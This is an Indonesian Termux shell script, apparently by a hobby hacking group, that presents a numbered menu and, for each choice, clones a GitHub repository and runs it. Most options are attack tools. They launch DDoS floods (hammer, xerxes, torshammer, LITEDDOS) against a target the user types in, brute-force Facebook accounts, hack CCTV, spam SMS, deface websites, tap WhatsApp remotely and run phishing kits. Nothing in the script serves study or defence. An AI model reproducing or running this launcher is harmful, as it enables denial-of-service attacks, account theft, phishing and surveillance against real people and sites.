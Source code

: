 # Tools Ini Milik Mr.Zack
# jangan Recode atau Attack

blue='\033[34;1m'
green='\033[32;1m'
purple='\033[35;1m'
cyan='\033[36;1m'
red='\033[31;1m'
white='\033[37;1m'
yellow='\033[33;1m'

clear
echo -n $cyan"Anda memakai tools ini pada tanggal "; date +"%d %B %Y"
echo "\033[36;1m[]=====================================================[]"
echo "\033[37;1m[] AUTHOR :  Mr.Zack                                   []"
echo "\033[32;1m[] TEAM   : Cyber Indonesia                            []"
echo "\033[36;1m[]=====================================================[]"
echo $cyan"[+]===================================================[+]"
echo $cyab"                      SELAMAT DATANG"
echo $cyan"[+]===================================================[+]"
echo  "________________________________________________________"
echo

echo $green"1) Toools TUANBADUTv1"
echo
echo $cyan"2) Tools TUANBADUTv4"
echo
echo $white"3) Tools BAJINGANv5"
echo
echo $blue"4) Tools BAJINGANv6"
echo
echo $purple"5) Hammer buat ddos"
echo
echo $red"6) Lite -Ddos buat ddos"
echo
echo $yellow"7) Xerxes buat ddos"
echo
echo $green"8) Torhammer buat ddos"
echo
echo $cyan"9) Bermain moon-buggy"
echo
echo $white"10) Musikan di termux"
echo
echo $blue"11) MALICIOUS BUAT VIRUS"
echo
echo $purple"12) Instal OSIF"
echo
echo $red"13) Hack fb mbf/massal"
echo
echo $yellow"14) Hack cctv"
echo
echo $green"15) Instal neth unter"
echo
echo $cyan"16) Spammer sms"
echo
echo $white"17) hacker Recondog"
echo
echo $blue"18) Instal Sungai atau kali linux no root"
echo
echo $purple"19) Deface"
echo
echo $red"20) Pulsa Gratis all operator"
echo
echo $blue"21) Tools mr.cakil"
echo
echo $purple"22) ko-dork"
echo
echo $red"23) buat script deface"
echo
echo $white"24) Sadap whatsapp jarak jauh"
echo
echo $blue"25) Tools Moreno77"
echo
echo $green"26) weeman"
echo
echo $purple"27) PhisingGame"
echo
echo $yellow"28) install hash buster"
echo
echo $blue"29) Fb-React"
echo
echo $white"30) Hack fb narget"
echo
echo $red"31) instal sqlmap"
echo
echo $cyan"00)Exit"
echo "________________________________________________________"
echo
echo "\033[32;1m╭──=>>[PILIH NOMORNYA]"
read -p "╰──────────────────────────> : " bos

if [ $bos = 1 ] || [ $bos = 1 ]
then
clear
figlet -f slant "Loading . . " | lolcat
pkg install python python2 vim figlet curl
pkg install php
pip2 install lolcat
pjg install git
git clone https://github.com/TUANB4DUT/TOOLSINSTALLERv1
cd TOOLSINSTALLERv1
chmod +x Tuanb4dut.sh
sh Tuanb4dut.sh
mv TOOLSINSTALLERv1 module
fi

if [ $bos = 2 ] || [ $bos = 2 ]
then
clear
figlet -f slant "Loading . . " | lolcat
pkg install python python2 vim figlet curl
pkg install php
pip2 install lolcat
pkg install git
git clone https://github.com/TUANB4DUT/TOOLSINSTALLERv4
cd TOOLSINSTALLERv4
ls
chmod 777 TUANB4DUT..sh
./TUANB4DUT..sh
fi

if [ $bos = 3 ] || [ $bos = 3 ]
then
clear
figlet -f slant "Loading . . " | lolcat
pkg install git
pkg insatll toilet
pkg install figlet
pip2 install lolcat
git clone https://github.com/DarknessCyberTeam/B4J1N64Nv5
cd B4J1N64Nv5
sh B4J1N64N.sh
fi

if [ $bos = 4 ] || [ $bos = 4 ]
then
clear
figlet -f slant "Loading . . " | lolcat
pkg install git
git clone https://github.com/DarknessCyberTeam/BAJINGANv6
ls
cd BAJINGANv6
sh BAJINGAN.sh
fi

if [ $bos = 5 ] || [ $bos = 5 ]
then
clear
figlet -f slant "Loading . . " | lolcat
pkg install python
pkg install git
git clone https://github.com/cyweb/hammer
cd hammer
python hammer.py
fi

if [ $bos = 6 ] || [ $bos = 6 ]
then
clear
figlet -f slant "Loading . . " | lolcat
apt install git
git clone https://github.com/4L13199/LITEDDOS
mv LITEDDOS $HOME
cd $HOME/LITEDDOS
read -p "MasukanTarget:" target
python2 LITEDDOS.py target 80 100
fi

if [ $bos = 7 ] || [ $bos = 7 ]
then
clear
figlet -f slant "Loading . . " | lolcat
clear
apt update
apt install git
apt install tor
git clone https://github.com/dotfighter/torshammer.git
mv torshammer $HOME
cd $HOME/torshammer
read -p "Masukan Target==>:" target
python2 torshammer.py -T -t target
fi

if [ $bos = 8 ] || [ $bos = 8 ]
then
clear
figlet -f slant "Loading . . " | lolcat
apt install git
apt install clang
git clone https://github.com/zanyarjamal/xerxes
mv xerxes $HOME
cd $HOME/xerxes
clang xerxes.c -o xerxes
clear
read -p "[masukanWebsiteTarget]>" target
./xerxes target 80
fi

if [ $bos = 9 ] || [ $bos = 9 ]
then
clear
figlet -f slant "Loading . . " | lolcat
pkg install moon-buggy
moon-buggy
fi

if [ $bos = 10 ] || [ $bos = 10 ]
then
clear
figlet -f slant "Loading . . " | lolcat
pkg install mpv
echo $cyan"mpv/sdcard/lagu.mp3 /sdcard/"
echo $red"Bisa ganti sesuai letak"
fi

if [ $bos = 11 ] || [ $bos = 11 ]
then
clear
figlet -f slant "Loading . . " | lolcat
pkg update
pkg upgrade
pkg install git
pkg install python2
git clone https://github.com/Hider5/Malicious
cd Malicious
pip2 install -r requirements.txt
chmod 777 malicious.py
python2 malicious.py
fi

if [ $bos = 12 ] || [ $bos = 12 ]
then
clear
figlet -f slant "Loading . . " | lolcat
pkg install bash
pkg install git
git clone https://github.com/CiKu370/OSIF.git
cd OSIF
pip2 install -r requirements.txt
python2 osif.py
fi

if [ $bos = 13 ] || [ $bos = 13 ]
then
clear
figlet -f slant "Loading . . " | lolcat
apt update
apt upgrade
apt install python2
apt install git
pip2 install --upgrade pip
pip2 install mechanize
git clone https://github.com/MRA27/mbf
cd mbf
python2 mbf.py
fi

if [ $bos = 14 ] || [ $bos = 14 ]
then
clear
figlet -f slant "Loading . . " | lolcat
pkg install python2
git clone https://github.com/kancotdiq/ipcs
cd ipcs
python2 scan.py
fi

if [ $bos = 15 ] || [ $bos = 15 ]
then
clear
figlet -f slant "Loading . . " | lolcat
apt update
apt install git
git clone https://github.com/Hax4us/Nethunter-In-Termux.git
cd Nethunter
chmod +x kalinethunter
./kalinethunter
./startkali.sh
fi

if [ $bos = 16 ] || [ $bos = 16 ]
then
clear
figlet -f slant "Loading . . " | lolcat
pkg install git
pkg install python2
pip2 install requests
git clone https://github.com/Kizukaa/SpammerSMS
cd SpammerSMS
fi

if [ $bos = 17 ] || [ $bos = 17 ]
then
clear
figlet -f slant "Loading . . " | lolcat
apt update
apt install python python2
apt install git
git clone https://github.com/UltimateHackers/ReconDog
cd ReconDog
chmod +x dog.py
Python2 dog.py
fi

if [ $bos = 18 ] || [ $bos = 18 ]
then
clear
figlet -f slant "Loading . . " | lolcat
clear
pkg update
pkg upgrade
clear
pkg install git
clear
pkg install python2
clear
pkg install gnupg
clear
Pkg install nano
clear
git clone https://github.com/LionSec/katoolin
cd katoolin
python2 katoolin.py
fi

if [ $bos = 19 ] || [ $bos = 19 ]
then
clear
figlet -f slant "Mr.Zack" | lolcat
pkg update && pkg upgrade
pkg install git
git clone https://github.com/4L13199/LITESCRIPT
cd LITESCRIPT
python2 LITESCRIPT.py
fi

if [ $bos = 20 ] || [ $bos = 20 ]
then
clear
figlet T E R T I P U
figlet B E L I K  L A H
figlet G O B L O K
exit
fi

if [ $bos = 21 ] || [ $bos = 21 ]
then
clear
figlet -f slant "Loading . . " | lolcat
pkg install python2
pkg install
git clone https://github.com/mrcakil/Mrcaki
cd Mrcaki
chmod 777 tools
./tools
fi

if [ $bos = 22 ] || [ $bos = 22 ]
then
clear
figlet -f slant "Loading . . " | lolcat
pkg update && pkg upgrade
pkg install git python2
git clone https://github.com/ciku370/ko-dork
cd ko-dork
python2 dork.py
fi

if [ $bos = 23 ] || [ $bos = 23 ]
then
clear
figlet -f slant "Loading . . " | lolcat
pkg install python2
pkg install php
pkg install openssl curl
pkg install git
git clone https://github.com/Ubaii/script-deface-creator
cd script-deface-creator
chmod +x create.py
python2 create.py
fi

if [ $bos = 24 ] || [ $bos = 24 ]
then
clear
figlet -f slant "Loading . . " | lolcat
pkg install python2
pkg install nano
pkg install php
pkg install git
git clone https://github.com/AndriGanz/whatshack
cd whatshack
sh whatshack.sh
fi

if[ $bos = 25 ] || [ $bos = 25 ]
then
clear
figlet -f slant "Loading . . " | lolcat
git clone https://github.com/DarkCurut08/DarkCurut08
cd DarkCurut08
sh Moreno77.sh
fi

if [ $bos = 26 ] || [ $bos = 26 ]
then
clear
figlet -f slant "Loading . . " | lolcat
apt-get update
apt-get upgrade
git clone https://github.com/evait-security/weeman
cd weeman
python2 weeman.py
fi

if [ $bos = 27 ] || [ $bos = 27 ]
then
clear
figlet -f slant "Loading . . " | lolcat
apt update && apt upgrade
git clone https://github.com/Senitopeng/PhisingGame
cd PhisingGame
python2 phising.py
fi

if [ $bos = 28 ] || [ $bos = 28 ]
then
clear
figlet -f slant "Loading . . " | lolcat
apt update && apt upgrade -y
apt install python2 git
git clone https://github.com/UltimateHackers/Hash-Buster
cd Hash-Buster
python2 hash.py
echo "Cara menjalankan hash buster tinggal ketik cd Hash-Buster terus python2 hash.py" | lolcat
fi

if [ $bos = 29 ] || [ $bos = 29 ]
then
clear
figlet -f slant "Loading . . " | lolcat
apt update && apt upgrade
apt install php curl -y
git clone http://github.com/AMVengeance/FB-React.git
cd FB-React
chmod +x start
./start
fi

if [ $bos = 30 ] || [ $bos = 30 ]
then
clear
figlet -f slant "Loading . . " | lolcat
pkg update && pkg upgrade
pkg install git unzip figlet
pkg intall python2
pip2 install mechanize
pip2 install requests
git clone https://gitlab.com/AlatToll/brute.git
cd brute
unzip brute
bash brute
fi

if [ $bos = 31 ] || [ $bos = 31 ]
then
clear
figlet -f slant "Loading . . " | lolcat
apt update
apt upgrade
apt install python
apt install python2
apt install git
git clone https://github.com/sqlmapproject/sqlmap.git
cd sqlmap
python2 sqlmap.py
fi

if [ $bos = 00 ] || [ $bos = 00 ]
then
clear
   echo  $green"G O O D B Y E . . ."                                  fi
                                                                      if [ $bos = * ] || [ $bos = * ]
then
echo "ERROR NOT FOUND"|lolcat
fi

exit
